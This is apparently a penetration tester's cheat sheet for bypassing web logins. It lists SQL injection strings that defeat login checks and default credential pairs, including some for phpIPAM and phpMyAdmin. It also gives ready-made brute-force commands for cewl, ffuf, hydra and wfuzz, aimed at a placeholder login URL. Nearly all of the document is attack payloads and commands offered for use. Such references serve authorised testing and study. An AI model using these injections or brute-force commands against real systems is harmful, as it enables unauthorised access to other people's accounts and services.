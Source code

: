 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp, Ffuf, Login, SQLi, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## 1. Use SQL Injections

```
admin'--
admin'#
admin' or 1=1--
admin' or '1'='1
admin' or 1=1#
```

<br />

## 2. Use Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## 3. Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```